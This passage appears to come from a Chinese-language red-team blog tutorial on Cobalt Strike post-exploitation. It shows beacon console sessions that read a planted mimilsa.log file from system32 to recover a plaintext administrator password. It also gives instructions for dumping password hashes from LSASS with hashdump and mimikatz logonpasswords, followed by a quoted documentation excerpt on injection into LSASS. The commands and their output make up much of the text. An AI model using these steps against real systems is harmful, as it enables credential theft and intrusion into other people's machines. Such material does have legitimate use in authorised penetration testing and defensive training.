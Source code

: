 接下来来到`C:\Windows\system32`目录

```
beacon> cd C:\Windows\system32
[*] cd C:\Windows\system32
[+] host called home, sent: 27 bytes
 
beacon> shell dir mimilsa.log
[*] Tasked beacon to run: dir mimilsa.log
[+] host called home, sent: 46 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 BE29-9C84
 
 C:\Windows\system32 的目录
 
2020/07/23  21:47                24 mimilsa.log
               1 个文件             24 字节
               0 个目录 17,394,728,960 可用字节
```

可以看到是存在`mimilsa.log`文件的，此时待目标主机重新登录，比如电脑锁屏后用户进行登录。

查看`mimilsa.log`文件内容。

```
beacon> shell type mimilsa.log
[*] Tasked beacon to run: type mimilsa.log
[+] host called home, sent: 47 bytes
[+] received output:
[00000000:000003e5] \    
[00000000:002b99a7] WIN-75F8PRJM4TP\Administrator    Password123!
```

成功获取到当前登录用户的明文密码。

### Credential and Hash Harvesting

需要在管理员权限的session下执行。

想要获取凭证信息，可以在管理员权限的会话处右击选择`Access --> Dump Hashes`，或者在控制台中使用`hashdump`命令。

![image-20240228173042362](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281730514.png)

想获取当前用户的密码，可以运行`mimikatz`，右击管理员权限会话选择`Access --> Run Mimikatz`，或在控制台运行`logonpasswords`命令。

![image-20240228173025010](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281730161.png)

在`View --> Credentials`下可以查看到`hashdump`与`mimikatz`获取的数据。

![image-20240228173105853](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402281731994.png)

To dump hashes, go to **[beacon]** -> **Access** -> **Dump Hashes**. You can also use the **hashdump [pid] [x86|x64]** command from the Beacon console to inject the hashdump tool into the specified process. Use **hashdump** (without [pid] and [arch] arguments) to spawn a temporary process and inject the hashdump tool into it. These commands will spawn a job that injects into LSASS and dumps the password hashes for local users on the current system. This command requires administrator privileges. If injecting into a pid that process requires administrator privileges.
